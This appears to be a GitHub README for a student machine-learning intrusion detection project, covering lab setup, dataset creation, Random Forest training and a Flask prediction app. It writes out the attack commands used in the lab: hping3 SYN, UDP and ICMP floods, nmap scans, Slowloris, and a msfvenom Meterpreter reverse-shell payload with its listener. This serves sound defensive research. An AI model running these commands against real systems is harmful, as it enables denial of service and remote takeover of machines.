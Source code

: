 # ML-IDS


Steps :- 
1. Project Planning & Objective Definition

-> Identified the need for a smarter, ML-based IDS.

-> Defined project aim: Detect various attacks in real time using machine learning.

2. Environment Setup

-> Set up host machine and two virtual machines (Attacker: Kali, Victim: Ubuntu).

-> Installed tools: Wireshark, Metasploit, Nmap, Scapy, CICFlowMeter, Flask, Python, joblib.

3. Attack Type Selection

-> We have chossen multiple attacks for the dataset | we have chosen these attacks on the basic of what type of protocols it uses also which port it targets
-> run these all these commands on attack machine and used the command provided at last to capture the attack traffic after performing the attack

-> SYN Flood  -  sudo hping3 -S -p 80 --flood 192.168.100.4



   

-> UDP Flood  -  sudo hping3 --udp -p 53 --flood 192.168.100.4



  

-> ICMP Flood  -  sudo hping3 -1 --flood 192.168.100.4



  

->  Nmap Scans  - 🔸 Normal TCP Connect Scan -> nmap -sT 192.168.100.4
 
 
 
-->  🔸 Aggressive Scan with OS and Version Detection -> nmap -A -T4 192.168.100.4




-> FIN Scan
  sudo nmap -sF 192.168.100.4


  

-> NULL Scan
  sudo nmap -sN 192.168.100.4




  

-> Xmas Scan
  sudo nmap -sX 192.168.100.4




  

-> Protocol Obfuscation Attack (Slowloris attack performed using Python)

  intallation of slowloris
    -> git clone https://github.com/gkbrk/slowloris
        cd slowloris

  run the attack: 
  python3 slowloris.py 192.168.100.4






-> Reverse Shell (It is a Metasploit Payload)
   
payload creation: 

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.5 LPORT=4444 -f elf >         shell.elf
- chmod +x shell.elf

Starting Metasploit Listener: 

- msfconsole

{run this whole in one time}
- use exploit/multi/handler
  set PAYLOAD linux/x86/meterpreter/reverse_tcp
  set LHOST 192.168.100.5
  set LPORT 4444
  exploit

- Now Execute payload on victim

  ./shell.elf








-> Normal Traffic Generation

  - Basic Web Browsing
  -  File Transfer with Netcat :
        1. on victim : nc -l -p 1234 > received_file.txt
        2. on attacker : nc 192.168.100.4 1234 < sample_file.txt






-> HTTP Requests (run Together)
   - curl -X GET http://192.168.100.4/api/test
     curl -X POST -d "data=test" http://192.168.100.4/api/post






  
this command i have used in victim machine every attack time this helps me capturuing each and every network traffic capture and saves it with .pcap file

- sudo tcpdump -i eth0 -w attack_name_capture.pcap




4. Packet Capture

-> Generated traffic using tools like Metasploit, Nmap, Scapy.

-> Captured packets using Wireshark and tcpdump into .pcap files.

5. Flow Conversion

-> Converted .pcap files to flow-based .csv using CICFlowMeter.

6. Labeling and Combining Dataset

-> Labeled each flow file with its corresponding attack or "normal".

-> Combined all labeled .csv files into a single dataset (~900,000+ rows).

7. Data Preprocessing

-> Dropped irrelevant columns (e.g., IPs, timestamps).

-> Normalized features.

-> Encoded categorical features if needed.

8. Model Selection and Training

-> Tried multiple models: Random Forest, SVM, Logistic Regression.

-> Finalized Random Forest Classifier based on best accuracy.

9. Model Evaluation

-> Split data into training and test sets.

-> Evaluated using accuracy, precision, recall, F1-score.

-> Achieved ~98% accuracy.

10. Model Saving

-> Exported the trained model as best_ids_model.pkl using joblib.

11. Flask Web Application Development

-> Built a simple web interface using Flask and Bootstrap.

-> Created input form to enter flow features manually.

12. Model Integration with Flask

-> Loaded the trained model in Flask backend.

-> Created /predict route to classify input and return prediction.

13. Testing the Web App

-> Ran the Flask server.

-> Entered sample flow inputs into the web form.

-> Validated predictions (Normal/Attack Type).

14. Real-Time Simulation

-> Simulated new attacks live.

-> Captured and converted flows.

-> Tested prediction by entering new flows in the web app.

